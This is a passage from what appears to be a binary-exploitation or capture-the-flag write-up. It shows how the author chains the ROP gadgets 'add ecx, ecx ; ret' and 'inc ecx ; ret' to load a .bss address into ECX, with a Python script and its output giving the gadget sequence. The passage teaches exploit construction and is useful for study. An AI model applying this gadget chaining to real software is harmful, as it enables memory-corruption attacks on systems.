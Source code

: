 What about overflow ECX with `0x0804849a : add ecx, ecx ; ret`? Yea that's good! Infact 
```bash
>>> n = 0x3c7
>>> for i in range(1,32):
...         n = n*2
...         print hex(n)
... 
0x78e
0xf1c
0x1e38
0x3c70
0x78e0
0xf1c0
0x1e380
0x3c700
0x78e00
0xf1c00
0x1e3800
0x3c7000
0x78e000
0xf1c000
0x1e38000
0x3c70000
0x78e0000
0xf1c0000
0x1e380000
0x3c700000
0x78e00000
0xf1c00000L
0x1e3800000L
0x3c7000000L
0x78e000000L
0xf1c000000L
0x1e38000000L
0x3c70000000L
0x78e0000000L
0xf1c0000000L
0x1e380000000L
```
it work! And we can put `0x0804a040` into ECX with `0x0804849a : add ecx, ecx ; ret` and `0x080484d7 : inc ecx ; ret` gadgets: suppose we have ECX = 0x2, what about this python script now?

```python
n = 0x804a040
while n > 2:
        if n % 2 == 0:
                print "add %ecx, %ecx ---> 0x804849a; n = " + str(n) + "( " + hex(n) +" )"
                n = n/2
        else:

                print "inc %ecx ---> 0x080484d7; n = " + str(n) + "( " + hex(n) +" )"
                n = n-1
print "n = " + str(n)
```
and execute that shit
```bash
$ python printAddrBSS.py 
add %ecx, %ecx ---> 0x804849a; n = 134520896( 0x804a040 )
add %ecx, %ecx ---> 0x804849a; n = 67260448( 0x4025020 )
add %ecx, %ecx ---> 0x804849a; n = 33630224( 0x2012810 )
add %ecx, %ecx ---> 0x804849a; n = 16815112( 0x1009408 )
add %ecx, %ecx ---> 0x804849a; n = 8407556( 0x804a04 )
add %ecx, %ecx ---> 0x804849a; n = 4203778( 0x402502 )
inc %ecx ---> 0x080484d7; n = 2101889( 0x201281 )
add %ecx, %ecx ---> 0x804849a; n = 2101888( 0x201280 )
```
